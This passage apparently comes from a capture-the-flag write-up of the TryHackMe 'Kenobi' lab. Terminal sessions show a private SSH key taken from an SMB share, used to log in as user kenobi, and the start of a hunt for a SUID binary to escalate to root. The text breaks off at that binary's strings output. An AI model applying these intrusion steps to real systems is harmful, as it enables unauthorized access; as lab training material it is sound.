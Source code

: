 ```
smb: \> get id_rsa
getting file \id_rsa of size 1675 as id_rsa (19.7 KiloBytes/sec) (average 19.7 KiloBytes/sec)
smb: \> 
```
Cool. Now we have the id_rsa, we can use it with the username.
```
~/CTF/tryhackme/kenobi$ ssh -i id_rsa kenobi@$IP 
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.201.134 (10.10.201.134)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.201.134' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt 
<insert-user-flag-here>
kenobi@kenobi:~$ 
```
Great, we have the user flag. Now lets look at privilege escalation.

No password so lets look at SUID checks.
```
$ ls -la /usr/bin/menu 
-rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu
kenobi@kenobi:~$ file /usr/bin/menu 
/usr/bin/menu: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0928a845a7eef506cb3bb698377bf15bfd0dcb47, not stripped

```
/usr/bin/menu stands out as not being default. Lets check it out with files, strings and run it.
```
$ file /usr/bin/menu 
/usr/bin/menu: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0928a845a7eef506cb3bb698377bf15bfd0dcb47, not stripped

```
```
$ strings /usr/bin/menu 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
__isoc99_scanf
puts
__stack_chk_fail
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
```
